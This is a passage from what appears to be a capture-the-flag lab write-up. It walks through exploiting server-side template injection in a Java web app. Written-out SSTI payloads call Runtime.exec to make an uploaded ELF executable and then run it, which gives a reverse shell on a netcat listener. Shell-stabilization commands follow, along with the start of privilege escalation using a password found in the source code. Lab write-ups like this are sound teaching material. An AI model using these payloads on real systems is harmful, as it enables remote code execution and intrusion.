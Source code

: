 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/09aeb8a8-f3ff-4199-8059-4c2db94ccf34)

nice nice, it got the file

On the target's website, e can give the executable permission using the ssti payload below

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./bankai.elf")}
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e8eb4a9-9f00-43dd-b0bc-8d9c59e568a8)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/13c7cc1c-e03b-4500-a39d-3803bf07d7d6)

Nice, there was no error.

Now, before we execute the executable file we sent, ensure you set up your netcat listener

To execute the "bankai.elf" file on the target's website we can use the ssti payload below

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./bankai.elf")}
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5a76ae5a-febc-405a-8455-03a69b6ebaa4)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3e8da895-b3c8-450b-90ff-17f32fc2b8e9)

Checking the netcat listener we set up

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6866a3fc-2c41-4eda-bba9-3524c52e16af)

We spawned a shell hehe

To stabilize this shell

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bdaee41c-0c20-4195-9c44-f08769398d26)

Lets go ahead to escalate our privileges



# Privilege Escalation

Reading the source code for the web application I found something interesting

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e9d32896-a1ff-4d1e-8d50-9e8294dce50e)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57440394-91e9-4a13-b562-5bcbb48f98ba)

The java file contain the password for the user ```woodenk```. 
